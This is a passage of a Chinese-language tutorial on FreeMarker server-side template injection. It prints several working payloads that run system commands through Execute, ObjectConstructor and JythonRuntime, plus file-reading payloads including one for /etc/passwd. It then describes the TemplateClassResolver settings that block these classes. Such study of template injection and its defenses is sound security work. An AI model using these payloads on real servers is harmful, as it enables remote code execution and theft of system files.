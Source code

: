 但是，当api_builtin_enabled  
为 true 时才可使用 api 函数，而该配置在 **2.3.22 版本**  
之后默认为 false。  
- • 由此我们可以构造出一系列的 bypass PoC  
  
POC1  
```
<#assign classLoader=object?api.class.protectionDomain.classLoader> <#assign clazz=classLoader.loadClass("ClassExposingGSON")> <#assign field=clazz?api.getField("GSON")> <#assign gson=field?api.get(null)> <#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> ${ex("Calc"")}
```  
  
POC2  
```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
```  
  
POC3  
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```  
  
POC4  
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("Calc") }
```  
  
读取文件  
```
<#assign is=object?api.class.getResourceAsStream("/Test.class")>FILE:[<#list 0..999999999 as _>    <#assign byte=is.read()>    <#if byte == -1>        <#break>    </#if>${byte}, </#list>]
```  
```
<#assign uri=object?api.class.getResource("/").toURI()><#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()><#assign is=input?api.getInputStream()>FILE:[<#list 0..999999999 as _><#assign byte=is.read()><#ifbyte==-1><#break></#if>${byte},</#list>]
```  
  
从 **2.3.17**  
版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：  
  
1、UNRESTRICTED_RESOLVER：可以通过 ClassUtil.forName(className)  
 获取任何类。  
  
2、SAFER_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime  
、freemarker.template.utility.Execute  
、freemarker.template.utility.ObjectConstructor  
这三个类。  
  
3、ALLOWS_NOTHING_RESOLVER：不能解析任何类。  
  
可通过freemarker.core.Configurable#setNewBuiltinClassResolver  
方法设置TemplateClassResolver  
，从而限制通过new()  
函数对freemarker.template.utility.JythonRuntime  
、freemarker.template.utility.Execute  
、freemarker.template.utility.ObjectConstructor  
这三个类的解析。  
#### FreeMarker SSTI 修复  
> 因为 FreeMarker 不能直接传参打，所以此处的代码参考奶思师傅。  
  